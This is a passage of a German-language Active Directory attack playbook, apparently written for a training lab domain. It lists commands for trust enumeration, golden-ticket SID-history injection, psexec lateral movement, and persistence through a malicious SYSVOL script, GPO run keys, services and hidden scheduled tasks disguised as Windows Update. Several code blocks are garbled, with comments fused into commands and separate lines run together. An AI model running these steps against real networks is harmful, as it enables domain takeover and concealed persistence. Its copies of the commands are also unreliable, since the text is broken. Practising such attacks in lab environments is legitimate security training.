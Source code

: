 ### 6.3 Cross-Domain Trust Exploitation

### Trust-Beziehungen identifizieren

```powershell
# In PowerShell-SessionPS> Get-ADTrust -Filter *PS> nltest /trusted_domains
PS> Get-DomainTrust
```

### SID-History-Injection (falls möglich)

```bash
# Mit Golden Ticket für Parent-Domainticketer.py -nthash <krbtgt_hash> -domain-sid <child_domain_sid> -extra-sid <enterprise_admins_sid> -domain north.sevenkingdoms.local administrator
# Cross-Domain-Zugriff testenpsexec.py -k -no-pass administrator@kingslanding.sevenkingdoms.local
```

---

## Phase 7: Advanced Persistence

### 7.1 GPO-basierte Persistence

### Malicious GPO erstellen (falls Admin-Rechte)

```bash
# SYSVOL-Manipulationsmbclient //192.168.20.11/SYSVOL -U administrator -c "put malicious_script.ps1 sevenkingdoms.local/Policies/{GPO-GUID}/Machine/Scripts/Startup/"# GPO mit PowerShell konfigurieren
```

```powershell
# GPO für Startup-ScriptNew-GPO -Name "Windows Update Service" -Domain north.sevenkingdoms.localSet-GPRegistryValue -Name "Windows Update Service" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "WindowsUpdateCheck" -Type String -Value "powershell.exe -WindowStyle Hidden -exec bypass -file \\winterfell.north.sevenkingdoms.local\SYSVOL\north.sevenkingdoms.local\scripts\update.ps1"
```

### 7.2 Service-basierte Persistence

### Windows-Service Creation

```powershell
# Via WinRM/PowerShellPS> New-Service -Name "WindowsUpdateService" -BinaryPathName "C:\Windows\System32\svchost.exe -k netsvcs" -Description "Windows Update Background Service"PS> Set-Service -Name "WindowsUpdateService" -StartupType Automatic
PS> Start-Service -Name "WindowsUpdateService"
```

### Scheduled Task Creation

```powershell
# Versteckter Scheduled TaskPS> $trigger = New-ScheduledTaskTrigger -Daily -At 9am
PS> $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -exec bypass -file C:\Windows\Temp\update.ps1"PS> Register-ScheduledTask -TaskName "Microsoft\Windows\UpdateOrchestrator\UpdateCheck" -Trigger $trigger -Action $action -RunLevel Highest
```
